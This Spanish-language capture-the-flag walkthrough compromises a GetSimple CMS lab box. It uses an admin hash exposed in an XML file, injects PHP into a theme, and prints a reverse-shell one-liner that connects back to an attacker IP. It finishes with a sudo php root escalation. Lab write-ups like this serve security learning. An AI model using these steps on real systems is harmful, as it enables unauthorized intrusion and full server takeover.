

Comprobación de Conocimentos
Objetivos: El primer objetivo de este reto es una vez comprometido el servidor pongamos el contenido de la flag del archivo user.txt.
Mientras que el segundo objetivo es poner el contenido de la flag del archivo root.txt una vez ya hallamos escalado privilegios.


Antes de empezar revisamos un poco lo que nos dice la propia platafoma para que tengamos una guía del orden en que debemos trabajar.

Empezamos con Reconocimiento: Hacemos un escaneo inicial con nmap.
nmap -p- -n -Pn --open -sS --min-rate 1000 {Ip}
 Párametros:
-p- para que me escanee todos los puertos
-n para que no haga resolución DNS
-Pn No haga descubrimiento de hosts
–open para que solo muestre los puertos abiertos
-sS hacemos el escaneo SealthScan que es muy rápido y eficiente.
–min-rate 1000 para que escanee mínimo 1000 paquetes por segundo.
Párametros:
-p- para que me escanee todos los puertos
-n para que no haga resolución DNS
-Pn No haga descubrimiento de hosts
–open para que solo muestre los puertos abiertos
-sS hacemos el escaneo SealthScan que es muy rápido y eficiente.
–min-rate 1000 para que escanee mínimo 1000 paquetes por segundo.
Obtenemos 2 puertos abiertos (22 y 80)
Vamos a recopilar mas información:
nmap -p22,80 -n -Pn -sCV {Ip}
 Párametros:
-p22,80 para que me escanee solo estos 2 puertos
-n para que no haga resolución DNS
-Pn No haga descubrimiento de hosts
-sCV hacemos el escaneo donde buscamos las versiones de los servicios que están corriendo en el servidor y los scripts que básicos que detecte que se puedan aplicar.
Párametros:
-p22,80 para que me escanee solo estos 2 puertos
-n para que no haga resolución DNS
-Pn No haga descubrimiento de hosts
-sCV hacemos el escaneo donde buscamos las versiones de los servicios que están corriendo en el servidor y los scripts que básicos que detecte que se puedan aplicar.
Obtenemos las versiones de ambos servicios, más el sistema operativo del servidor, de todas formas vamos a ir comprobando esta información.
Usamos whatweb para ir contrastando la información del puerto 80
whatweb http://{IP}:80

También podemos contrastar con curl:
curl -I http://{IP}:80

Vamos a echarle un vistazo a la página web:

Y leemos que están usando un CMS llamado GetSimple. Podemos investigar un poco en google a ver de que se trata.
Podemos proceder a hacerle fuzzin a esta dirección a ver si encontramos rutas o archivos accesibles.
gobuster dir -u http://{IP} -w {/path/to/wordlist/}
 Con esto podemos ir trabajando vamos con data
Con esto podemos ir trabajando vamos con data
 Dentro de estas carpetas encontramos
Dentro de estas carpetas encontramos
- http://{IP}/data/other/website.xml Que el sitio tiene por nombre http://gettingstarted.htb/ Esto lo podemo añadir a nuestro /etc/hosts.
- http://{IP}/data/other/authorization.xml Apikey ->
- http://{IP}/data/other/plugins.xml Obtenemos 2 plugins anonymous_data.php InnovationPlugin.php
- http://{IP}/data/users/admin.xml Obtenemos un correo admin@gettingstarted.com Obtenemos el usuario admin Y obtenemos esto PWD d033e22ae348aeb5660fc2140aec35850c4da997 PWD Podemos intentar decodificar esta cadena, tiene pinta de ser un password.
 Y vemos que efectivamente al crackearlo tenemos como resultado admin.
Y vemos que efectivamente al crackearlo tenemos como resultado admin.
Seguimos buscando y obtenemos un panel de autenticación
http://{IP}/admin/
 Probamos las credenciales que tenemos y para adentro!
Probamos las credenciales que tenemos y para adentro!

Recopilamos informacion en el sitio:
- GetSimple Version 3.3.15
- Vemos que podemos crear y editar páginas
- Vemos que podemos editar temas y componentes
- Podemos también editar el sitemap

- Vemos que esta hecho con php
- Hay que tener en cuenta que tanto las páginas, temas y componentes son archivos php, con lo cual podemos intentar dar una instrucción a ver si el servidor nos la interpreta.
<?php system('id'); ?>


Dado que el servidor nos interpreta la instrucción tenemos ejecución remota de comandos en el servidor. Con lo que debemos intentar lanzarnos una bash a nuestro equipo atacante para trabajar mejor.
<?php system('php -r \'$sock=fsockopen("10.10.15.64",4444);exec("/bin/sh -i <&3 >&3 2>&3");\''); ?>
 Nos ponemos en escucha con netcat:
Nos ponemos en escucha con netcat:
nc -lvnp 4444
 Y hacemos la petición a http://{IP}
Y vemos que tenemos una terminal /bin/sh/
Y hacemos la petición a http://{IP}
Y vemos que tenemos una terminal /bin/sh/

Lo siguiente que debemos hacer es darle tratamiento a la tty para poder trabajar cómodos:
python3 -c 'import pty; pty.spawn("/bin/bash")'

Nos podemos mover en el servidor para encontrar la primera flag

Vale el siguiente objetivo es escalar privilegios a root para obtener la segunda flag Ejecutamos el siguiente comando para ver que comandos podemos ejecutar como root sin necesidad de contraseña:
sudo -l
 Y vemos que podemos ejecutar el comando php sin contraseña, lo siguiente que debemos hacer es buscar algún script con php que nos permita escalar privilegios.
Recomiendo este recurso que tiene muchas funciones para escalar privilegios que podemos probar:
Y vemos que podemos ejecutar el comando php sin contraseña, lo siguiente que debemos hacer es buscar algún script con php que nos permita escalar privilegios.
Recomiendo este recurso que tiene muchas funciones para escalar privilegios que podemos probar:
 Ponemos php y tocamos en sudo que es lo que tenemos ahora mismo posible ejecutar:
Ponemos php y tocamos en sudo que es lo que tenemos ahora mismo posible ejecutar:
 Vale lo que vamos a hacer una pequeña modificación al comando para ejecutarlo de una:
Vale lo que vamos a hacer una pequeña modificación al comando para ejecutarlo de una:
sudo php -r "system('/bin/bash');"
 Entonces lo que vamos a hacer a continuación es buscar la flag de root.
cd /root
ls
cat root.txt

Tenemos la 2da flag.
Si te sirvió de algo este tutorial ya para mi es más que suficiente, si me puedes decir que podemos mejorar te lo voy a agradecer un montón.
Escríbeme por cualquiera de las vías